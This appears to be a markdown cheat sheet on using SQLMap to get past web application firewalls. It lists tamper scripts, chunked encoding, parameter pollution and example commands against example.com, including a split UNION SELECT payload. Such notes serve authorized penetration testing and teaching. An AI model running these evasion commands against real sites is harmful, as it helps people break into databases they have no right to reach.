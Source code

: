 ## WAF Bypass

SQLMap detects Web Application Firewalls (WAFs) and attempts to identify them using a third-party library, `identYwaf`. To avoid detection, use:

- `--skip-waf`: Skip WAF detection.
- `--tamper`: Use tamper scripts to obfuscate SQL payloads.

### Example Command with Tamper Scripts:
```bash
sqlmap -u "http://www.example.com/" --tamper=randomcase,space2comment
```

---

## Tamper Scripts

Tamper scripts modify SQL payloads to bypass protections like WAF/IPS. Multiple scripts can be chained using the `--tamper` option.

### Example Scripts:
- **`randomcase`**: Randomizes case for keywords (e.g., `SELECT` → `SeLeCt`).
- **`space2comment`**: Replaces spaces with comments (`/*`).
- **`between`**: Replaces `>` with `NOT BETWEEN 0 AND #` and `=` with `BETWEEN # AND #`.

### Example Command:
```bash
sqlmap -u "http://www.example.com/" --tamper=space2comment,randomcase
```

### Listing All Tamper Scripts:
```bash
sqlmap --list-tampers
```

---

## Miscellaneous Bypasses

### Chunked Transfer Encoding
Splits POST request bodies into "chunks" to bypass keyword filters.

### HTTP Parameter Pollution (HPP)
Splits payloads across multiple parameters with the same name.

### Example Commands:
```bash
sqlmap -u "http://www.example.com/" --chunked
sqlmap -u "http://www.example.com/?id=1&id=UNION&id=SELECT" --batch
```
